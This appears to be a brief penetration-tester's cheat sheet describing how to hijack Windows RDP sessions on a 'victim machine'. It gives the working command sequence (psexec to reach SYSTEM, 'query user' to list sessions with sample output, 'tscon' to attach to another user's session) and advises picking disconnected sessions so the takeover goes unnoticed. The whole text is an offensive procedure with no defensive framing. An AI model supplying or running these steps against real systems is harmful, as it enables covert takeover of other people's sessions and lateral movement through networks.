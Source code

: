 # Hijacking RDP Sessions
## Step #1: obtain local administrator on the victim machine
## Step #2: obtain shell as `NT Authority\System` (can be done using `psexec -i -s cmd.exe`) to able to hijack the session (otherwise, you will be asked for the user password)
## Step #3: run `query user` to find the running rdp sessions, output should be like below:
```
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>fsadmin               console             1  Active         49  7/18/2022 5:00 AM
 rdpman                                    7  Disc           56  7/18/2022 6:13 AM
 administrator         rdp-tcp#15          9  Active          6  7/18/2022 7:05 AM
```
## Step #4: run `tscon <TARGET_SESSION_ID>` to connect to it.
## Note: doing so will disconnect the user. so it's recommended to target already disconnected sessions